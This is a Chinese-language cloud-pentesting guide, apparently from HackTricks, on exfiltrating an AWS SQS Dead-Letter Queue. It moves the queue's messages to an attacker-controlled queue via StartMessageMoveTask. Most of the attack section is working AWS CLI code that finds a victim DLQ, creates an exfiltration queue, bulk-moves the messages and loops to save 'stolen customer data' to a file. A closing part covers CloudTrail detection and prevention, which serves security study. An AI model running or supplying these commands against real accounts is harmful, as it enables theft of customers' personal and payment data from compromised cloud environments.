 # AWS – SQS DLQ Redrive 数据外泄（通过 StartMessageMoveTask）

{{#include ../../../../banners/hacktricks-training.md}}

## 描述

滥用 SQS 的 message move task，通过 `sqs:StartMessageMoveTask` 将受害者的 Dead-Letter Queue (DLQ) 中累计的所有消息重定向到攻击者控制的队列，以窃取数据。该技术利用了 AWS 的合法消息恢复功能来外泄随着时间在 DLQ 中累积的敏感数据。

## 什么是 Dead-Letter Queue (DLQ)？

Dead-Letter Queue 是一种特殊的 SQS 队列，当主应用无法成功处理消息时，消息会自动发送到该队列。这些失败的消息通常包含：
- 无法处理的敏感应用数据
- 错误详情和调试信息
- 个人可识别信息 (PII)
- API token、凭据或其他秘密
- 业务关键的事务数据

DLQ 类似于失败消息的“墓地”，因为应用无法正确处理的敏感数据会随着时间累积，使其成为有价值的目标。

## 攻击场景

**真实世界示例：**
1. **电商应用** 通过 SQS 处理客户订单
2. **一些订单处理失败**（支付问题、库存问题等）并被移动到 DLQ
3. **DLQ 累积** 了数周/数月的失败订单，包含客户数据： `{"customerId": "12345", "creditCard": "4111-1111-1111-1111", "orderTotal": "$500"}`
4. **攻击者获取** 具有 SQS 权限的 AWS 凭证
5. **攻击者发现** DLQ 中包含数千条带有敏感数据的失败订单
6. **攻击者不想逐条访问消息**（慢且明显），而是使用 `StartMessageMoveTask` 将所有消息批量转移到自己的队列
7. **攻击者一次性提取** 所有历史敏感数据

## 前提条件
- 源队列必须被配置为 DLQ（至少被某个队列的 RedrivePolicy 引用）。
- IAM 权限（以被攻陷的受害者主体身份运行）：
- 在 DLQ（源）上：`sqs:StartMessageMoveTask`, `sqs:GetQueueAttributes`。
- 在目标队列上：允许传递消息的权限（例如，队列策略允许来自受害者主体的 `sqs:SendMessage`）。对同账户的目标队列这通常是默认允许的。
- 如果启用了 SSE-KMS：在源 CMK 上需要 `kms:Decrypt`，在目标 CMK 上需要 `kms:GenerateDataKey`, `kms:Encrypt`。

## 影响
**潜在影响**：使用原生 SQS API 高速外泄 DLQ 中累积的敏感负载（失败事件、PII、token、应用负载）。如果目标队列策略允许来自受害者主体的 `SendMessage`，则可跨账户工作。

## 如何滥用

- 确定受害者 DLQ 的 ARN，并确认它实际上被某个队列作为 DLQ 引用（任意队列均可）。
- 创建或选择一个攻击者控制的目标队列并获取其 ARN。
- 启动从受害者 DLQ 到你目标队列的 message move task。
- 监控进度或在需要时取消任务。

### CLI 示例：从电商 DLQ 外泄客户数据

**场景**：攻击者已攻破 AWS 凭证，发现电商应用使用 SQS 且 DLQ 中包含失败的客户订单处理尝试。

1) **发现并检查受害者的 DLQ**
```bash
# List queues to find DLQs (look for names containing 'dlq', 'dead', 'failed', etc.)
aws sqs list-queues --queue-name-prefix dlq

# Let's say we found: https://sqs.us-east-1.amazonaws.com/123456789012/ecommerce-orders-dlq
VICTIM_DLQ_URL="https://sqs.us-east-1.amazonaws.com/123456789012/ecommerce-orders-dlq"
SRC_ARN=$(aws sqs get-queue-attributes --queue-url "$VICTIM_DLQ_URL" --attribute-names QueueArn --query Attributes.QueueArn --output text)

# Check how many messages are in the DLQ (potential treasure trove!)
aws sqs get-queue-attributes --queue-url "$VICTIM_DLQ_URL" \
--attribute-names ApproximateNumberOfMessages
# Output might show: "ApproximateNumberOfMessages": "1847"
```
2) **创建由攻击者控制的目标队列**
```bash
# Create our exfiltration queue
ATTACKER_Q_URL=$(aws sqs create-queue --queue-name hacker-exfil-$(date +%s) --query QueueUrl --output text)
ATTACKER_Q_ARN=$(aws sqs get-queue-attributes --queue-url "$ATTACKER_Q_URL" --attribute-names QueueArn --query Attributes.QueueArn --output text)

echo "Created exfiltration queue: $ATTACKER_Q_ARN"
```
3) **执行 bulk message theft**
```bash
# Start moving ALL messages from victim DLQ to our queue
# This operation will transfer thousands of failed orders containing customer data
echo "Starting bulk exfiltration of $SRC_ARN to $ATTACKER_Q_ARN"
TASK_RESPONSE=$(aws sqs start-message-move-task \
--source-arn "$SRC_ARN" \
--destination-arn "$ATTACKER_Q_ARN" \
--max-number-of-messages-per-second 100)

echo "Move task started: $TASK_RESPONSE"

# Monitor the theft progress
aws sqs list-message-move-tasks --source-arn "$SRC_ARN" --max-results 10
```
4) **收集被窃取的敏感数据**
```bash
# Receive the exfiltrated customer data
echo "Receiving stolen customer data..."
aws sqs receive-message --queue-url "$ATTACKER_Q_URL" \
--attribute-names All --message-attribute-names All \
--max-number-of-messages 10 --wait-time-seconds 5

# Example of what an attacker might see:
# {
#   "Body": "{\"customerId\":\"cust_12345\",\"email\":\"john@example.com\",\"creditCard\":\"4111-1111-1111-1111\",\"orderTotal\":\"$299.99\",\"failureReason\":\"Payment declined\"}",
#   "MessageId": "12345-abcd-6789-efgh"
# }

# Continue receiving all messages in batches
while true; do
MESSAGES=$(aws sqs receive-message --queue-url "$ATTACKER_Q_URL" \
--max-number-of-messages 10 --wait-time-seconds 2 --output json)

if [ "$(echo "$MESSAGES" | jq '.Messages | length')" -eq 0 ]; then
echo "No more messages - exfiltration complete!"
break
fi

echo "Received batch of stolen data..."
# Process/save the stolen customer data
echo "$MESSAGES" >> stolen_customer_data.json
done
```
### 跨账户说明
- 目标队列必须有资源策略，允许受害者主体执行 `sqs:SendMessage`（以及在使用时的 KMS 授权/权限）。

## 为什么此攻击有效

1. **合法的 AWS 功能**：利用内置的 AWS 功能，使其难以被识别为恶意活动
2. **批量操作**：快速转移数千条消息，而非缓慢的逐条访问
3. **历史数据**：DLQs 会在数周/数月内积累敏感数据
4. **不易被察觉**：许多组织并不密切监控对 DLQ 的访问
5. **支持跨账户**：可以 exfiltrate 到攻击者自己的 AWS 账户（如果权限允许）

## 检测与防护

### 检测
监控 CloudTrail 是否存在可疑的 `StartMessageMoveTask` API 调用：
```json
{
"eventName": "StartMessageMoveTask",
"sourceIPAddress": "suspicious-ip",
"userIdentity": {
"type": "IAMUser",
"userName": "compromised-user"
},
"requestParameters": {
"sourceArn": "arn:aws:sqs:us-east-1:123456789012:sensitive-dlq",
"destinationArn": "arn:aws:sqs:us-east-1:attacker-account:exfil-queue"
}
}
```
### 预防
1. **最小特权**: 限制 `sqs:StartMessageMoveTask` 权限，仅授予必要的角色
2. **监控 DLQs**: 为异常的 DLQ 活动设置 CloudWatch 警报
3. **跨账户策略**: 仔细审查允许跨账户访问的 SQS 队列策略
4. **加密 DLQs**: 使用 SSE-KMS 并限制密钥策略
5. **定期清理**: 不要让敏感数据在 DLQs 中无限期堆积

{{#include ../../../../banners/hacktricks-training.md}}
